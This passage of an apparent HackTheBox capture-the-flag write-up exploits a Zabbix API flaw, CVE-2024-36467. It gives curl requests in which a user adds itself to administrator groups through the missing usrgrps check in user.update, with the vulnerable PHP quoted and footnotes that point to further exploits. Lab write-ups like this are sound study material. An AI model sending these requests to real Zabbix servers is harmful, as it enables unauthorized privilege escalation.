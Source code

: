 Then, I suggested according to the documentation that **Zabbix Administrator** role is 7 and the group “**Internal**” is 13 (both give full access for API, and their id values may change on different deployments), and I tried to guess my user’s role, seems it was userid=3:

```bash
curl --request POST \
  --url 'http://unrested.htb/zabbix/api_jsonrpc.php' \
  --header 'Authorization: Bearer 399d8bffa6f5dafdf18c1c15978a092b'\
  --header 'Content-Type: application/json-rpc\
  --data '{"jsonrpc": "2.0", "method": "user.update", "params": \
  {"userid": "1", "roleid": "1"}, "id": 1 }' \
  -x http://127.0.0.1:8080

{"jsonrpc":"2.0","error":{"code":-32500,"message":"Application error.","data":"No permissions to referred object or it does not exist!"},"id":1}                                                                                               ... 

curl --request POST \
  --url 'http://unrested.htb/zabbix/api_jsonrpc.php' \
  --header 'Authorization: Bearer 399d8bffa6f5dafdf18c1c15978a092b' \
  --header 'Content-Type: application/json-rpc' \
  --data '{"jsonrpc": "2.0", "method": "user.update", "params": \
  {"userid": "3", "roleid": "3"}, "id": 1 }' \
  -x http://127.0.0.1:8080

{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.",\
"data":"User cannot change own role."},"id":1}   
```
It did not work, but in a CUser.php we can find function checkHimself(start at 1109)[^CUser-checkHimself], that is called when we trigger user.update function and see that the next check for `usrgrps` is missing for self-assigning and according to documentation we can leverage this parameter to assign our user multiple groups using usrgrpid [^usrgrpid] 

```php
private function checkHimself(array $users) {
	foreach ($users as $user) {
		if (bccomp($user['userid'], self::$userData['userid']) == 0) {
			if (array_key_exists('roleid', $user) && $user['roleid'] != self::$userData['roleid']) {
				self::exception(ZBX_API_ERROR_PARAMETERS, _('User cannot change own role.'));
			}

			if (array_key_exists('usrgrps', $user)) {
				$db_usrgrps = DB::select('usrgrp', [
					'output' => ['gui_access', 'users_status'],
					'usrgrpids' => zbx_objectValues($user['usrgrps'], 'usrgrpid')
				]);
```
so the following request worked as intended:
```bash
curl --request POST \
  --url 'http://unrested.htb/zabbix/api_jsonrpc.php' \
  --header 'Authorization: Bearer 129592fc742947f1153cc3db987e85fb' \
  --header 'Content-Type: application/json-rpc' \
  --data '{"jsonrpc": "2.0", "method": "user.update", "params": \
  {"userid": "3", "usrgrps": [{"usrgrpid":"7"},{"usrgrpid":"13"}]}, "id": 1 }'\
  -x http://127.0.0.1:8080

{"jsonrpc":"2.0","result":{"userids":["3"]},"id":1} 
```
{: .nolineno }


[^CVE-2024-36467]: [CVE-2024-36467 / ZBX-25614](https://support.zabbix.com/browse/ZBX-25614), 
[^privesc-poc]: PoC for CVE-2024-36467 / ZBX-25614
[^user-update]: Documentation on [user.update](https://www.zabbix.com/documentation/current/en/manual/api/reference/user/update)
[^CUser-checkHimself]: [function checkHimself](https://github.com/zabbix/zabbix/blob/7.0.0/ui/include/classes/api/services/CUser.php#L1109C2-L1120C9) 
[^usrgrpid]: [Documentation on usergroup object](https://www.zabbix.com/documentation/current/en/manual/api/reference/usergroup/object)
[^CVE-2024-42327]: [CVE-2024-42327 / ZBX-25623](https://support.zabbix.com/browse/ZBX-25623), [POC](https://github.com/compr00t/CVE-2024-42327/tree/main)
[^PoC-sql-my]: Proof Of Concept for CVE-2024-42327 / ZBX-25623 by mrlsecurity.
[^SQL-addRelatedObjects]: Github lines [3041-3051](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L3041C1-L3051C6)
[^user-get]: Call for addRelatedObjects in [user.get](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L234)
[^system-run]: Documentation on Zabbix [system.run](https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent#system.run)
[^hostid]: Documentation on Zabbix [hostid and interfaceid](https://www.zabbix.com/documentation/7.2/en/manual/api/reference/host/get?hl=host.get)
[^nmap-doc]: nmap [documentation](https://nmap.org/book/data-files-replacing-data-files.html)